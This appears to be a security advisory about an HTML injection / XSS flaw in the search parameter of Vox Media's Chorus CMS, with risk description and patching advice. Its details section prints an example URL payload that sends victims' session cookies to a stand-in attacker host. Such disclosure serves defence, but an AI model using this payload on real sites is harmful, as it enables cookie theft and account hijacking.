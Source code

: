 ## Critical Vulnerability Discovered in Vox Media's Chorus CMS

A newly identified vulnerability in **Vox Media's Chorus CMS** poses a significant risk to organizations utilizing the platform. This flaw could be exploited by attackers to compromise user accounts, steal sensitive data, and manipulate website content, leading to severe reputational and financial damage. All users of Chorus CMS should review their systems and prepare for immediate action.

### Vulnerability Details

*   **CVE ID:** **CVE-2025-40730**
*   **Affected Software:** **Vox Media's Chorus CMS**
*   **Affected Versions:** Specific version numbers are not yet detailed in public advisories, but all deployments of Chorus CMS should be considered potentially vulnerable until patches are released.
*   **Technical Cause:** The vulnerability is an **HTML injection** flaw found in the `/search` functionality. Specifically, the 'q' parameter is susceptible to unvalidated input. This allows an attacker to inject malicious HTML and JavaScript code directly into the search results page.
*   **Example Payload:** An attacker could craft a malicious URL like:
    `https://yourchorusdomain.com/search?q=<script>alert('You have been attacked!');</script>`
    Or for data theft:
    `https://yourchorusdomain.com/search?q=<script>location.href='http://attacker.com/log?cookie='+document.cookie</script>`

### Risk Description

This **HTML injection** vulnerability, often leading to **Cross-Site Scripting (XSS)**, allows an attacker to execute arbitrary JavaScript code within a victim's browser when they visit a specially crafted malicious URL.

If exploited, an attacker could:
*   **Steal Sensitive Data:** This includes session cookies, allowing the attacker to hijack user accounts without needing their password.
*   **Perform Actions on Behalf of the User:** The attacker could post content, change settings, or access privileged functions as if they were the legitimate user.
*   **Deface Websites:** By injecting HTML, an attacker could alter the appearance or content of pages the victim views.
*   **Distribute Malware:** The injected script could redirect users to malicious websites or download malware onto their systems.

The **CVSS 4.0 Base Score** for this vulnerability is **4.8 (Medium)**, indicating a notable risk given the potential for data theft and user impersonation.

### Who is at Risk

Organizations and businesses that rely on **Vox Media's Chorus CMS** for their content management are directly at risk. This includes news publishers, digital media companies, and any entity using Chorus CMS to manage and deliver their online content.

### Recommendations

**For Developers & Engineering Teams:**
*   **Input Validation:** Implement strict validation for all user-supplied input, especially parameters like 'q' in search functions, to ensure they do not contain malicious characters or scripts.
*   **Output Encoding:** Crucially, ensure that all dynamic content reflected back to the user's browser is properly HTML-encoded or escaped before rendering. This neutralizes any injected HTML or JavaScript, rendering it harmless text.
*   **Security Audits:** Conduct comprehensive security audits of your codebase, focusing on areas where user input is processed and displayed.

**For Website Owners & Administrators:**
*   **Monitor for Patches:** Regularly check official advisories from Vox Media regarding **Chorus CMS** security updates. Apply any official **patches** immediately upon release.
*   **Update Quickly:** Plan for and execute rapid deployment of security updates to minimize exposure.
*   **Temporary Mitigation (WAF):** Consider implementing **Web Application Firewall (WAF)** rules to block common **XSS** attack patterns, though this is not a substitute for proper code fixes.
*   **Educate Users:** Inform your internal teams about the risks of clicking suspicious links, especially those that appear to be from your own domain but contain unusual parameters.

### Reference Link

For more detailed technical information and official advisories, please refer to the following source:
[https://www.incibe.es/en/incibe-cert/notices/aviso/html-injection-vox-medias-chorus-cms](https://www.incibe.es/en/incibe-cert/notices/aviso/html-injection-vox-medias-chorus-cms)